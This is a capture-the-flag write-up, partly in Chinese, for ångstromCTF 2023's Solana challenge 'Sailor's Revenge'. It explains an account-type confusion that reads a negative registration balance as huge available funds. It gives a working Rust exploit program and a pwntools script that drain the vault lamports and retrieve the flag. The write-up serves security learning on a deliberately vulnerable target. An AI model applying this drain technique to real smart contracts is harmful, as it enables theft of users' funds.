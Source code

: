 ```yaml
---
title: Blockchain - Sailor's Revenge
description: 2023 | ångstromCTF | pwn
tags:
    - solana
    - account confusions
---
```


## 题目

After the sailors were betrayed by their trusty anchor, they rewrote their union smart contract to be anchor-free! They even added a new registration feature so you can show off your union registration on the blockchain!

> nc challs.actf.co 31404

[:material-download: `sailors_revenge.tar.gz`](static/sailors_revenge.tar.gz)

## 解题思路

- 目标是获取至少 $10^8$ lamports

    ```rs
    const TARGET_AMT: u64 = 100_000_000;

    // check solve
    let balance = challenge
        .env
        .get_account(user.pubkey())
        .ok_or("could not find user")?
        .lamports;
    writeln!(socket, "lamports: {:?}", balance)?;

    if balance > TARGET_AMT {
        let flag = fs::read_to_string("flag.txt")?;
        writeln!(
            socket,
            "You successfully exploited the working class and stole their union dues! Congratulations!\nFlag: {}",
            flag.trim()
        )?;
    } else {
        writeln!(socket, "That's not enough to get the flag!")?;
    }
    ```

- 程序支持四种指令
    - **CreateUnion** 向 `vault` 发送 `bal` lamports，并创建一个账户存储 `SailorUnion` 结构的数据，初始 `available_funds` 为 0
    - **PayDues** 当 `member` 的余额不低于 `amt` 时，将 `amt` lamports 从 `member` 转移到 `vault`，`SailorUnion` 的 `available_funds` 增加 `amt`
    - **StrikePay** 当 `available_funds` 不低于 `amt` 时，将 `amt` lamports 从 `vault` 转移到 `member`（增加 `user` 账户余额的唯一方法 :D）
    - **RegisterMember** 创建一个账户存储 `Registration` 结构的数据，初始 `balance` 为 -100

    ```rs
    let ins = SailorInstruction::try_from_slice(instruction_data)?;
    match ins {
        SailorInstruction::CreateUnion(bal) => processor::create_union(program_id, accounts, bal),
        SailorInstruction::PayDues(amt) => processor::pay_dues(program_id, accounts, amt),
        SailorInstruction::StrikePay(amt) => processor::strike_pay(program_id, accounts, amt),
        SailorInstruction::RegisterMember(member) => processor::register_member(program_id, accounts, member)
    }
    ```

- `SailorUnion` 和 `Registration` 的字段是重合的，且 `balance` 的类型为 `i64`，若按照 `SailorUnion` 反序列化 `balance` 为负数的 `Registration` 类型的数据，将得到一个数值很大的 `u64`，同时 `member` 对应 `authority`

    ```rs
    #[derive(Debug, Clone, BorshSerialize, BorshDeserialize, PartialEq, Eq, PartialOrd, Ord)]
    pub struct SailorUnion {
        available_funds: u64,
        authority: [u8; 32],
    }

    #[derive(Debug, Clone, BorshSerialize, BorshDeserialize, PartialEq, Eq, PartialOrd, Ord)]
    pub struct Registration {
        balance: i64,
        member: [u8; 32],
    }
    ```

- 那么，在调用 `strike_pay` 时将 `rich_boi` 为 `user` 注册的 `Registration` 账户作为 `SailorUnion` 账户传入就可以啦 (ΦˋωˊΦ)

### Exploitation

```bash
$ cargo new solve
$ cd solve/
$ mv src/main.rs src/lib.rs
$ cargo add solana_program borsh
$ cargo-build-bpf
```

??? note "Cargo.toml"

    ```toml
    [package]
    name = "solve"
    version = "0.1.0"
    edition = "2023"

    [dependencies]
    borsh = "0.10.3"
    solana-program = "1.14.11"

    [lib]
    crate-type = ["cdylib", "rlib"]
    ```

```rs
use borsh::{ BorshSerialize };
use solana_program::{
    account_info::{ next_account_info, AccountInfo },
    instruction::{ AccountMeta, Instruction },
    entrypoint::ProgramResult,
    entrypoint,
    program::invoke,
    pubkey::Pubkey,
    system_program,
};

#[derive(BorshSerialize)]
pub enum SailorInstruction {
    CreateUnion(u64),
    PayDues(u64),
    StrikePay(u64),
    RegisterMember([u8; 32]),
}

entrypoint!(process_instruction);

pub fn process_instruction(
    _program_id: &Pubkey,
    accounts: &[AccountInfo],
    _instruction_data: &[u8],
) -> ProgramResult {
    let iter = &mut accounts.iter();
    let chall_id = next_account_info(iter)?;
    let registration = next_account_info(iter)?;
    let user = next_account_info(iter)?;
    let vault = next_account_info(iter)?;

    invoke(
        &Instruction {
            program_id: *chall_id.key,
            data: SailorInstruction::StrikePay(100_000_000).try_to_vec().unwrap(),
            accounts: vec![
                AccountMeta::new(*registration.key, false),
                AccountMeta::new(*user.key, false),
                AccountMeta::new(*user.key, true),
                AccountMeta::new(*vault.key, false),
                AccountMeta::new_readonly(system_program::id(), false),
            ],
        },
        &[
            registration.clone(),
            user.clone(),
            vault.clone(),
        ]
    )?;

    Ok(())
}
```

```py
from pwn import *

account_metas = [
    ("program", "-r"), # readonly
    ("registration", "-w"),
    ("user", "sw"), # signer + writable
    ("vault", "-w"),
    ("system program", "-r"),
]
instruction_data = b""

p = remote("challs.actf.co", 31404)

with open("solve/target/deploy/solve.so", "rb") as f:
    solve = f.read()

p.sendlineafter(b"program len: \n", str(len(solve)).encode())
p.send(solve)

accounts = {}
for l in p.recvuntil(b"num accounts: \n", drop=True).strip().split(b"\n"):
    [name, pubkey] = l.decode().split(": ")
    accounts[name] = pubkey

p.sendline(str(len(account_metas)).encode())
for (name, perms) in account_metas:
    p.sendline(f"{perms} {accounts[name]}".encode())
p.sendlineafter(b"ix len: \n", str(len(instruction_data)).encode())
p.send(instruction_data)

p.interactive()
```

### Flag

> actf{maybe_anchor_can_kind_of_protect_me_from_my_own_stupidity}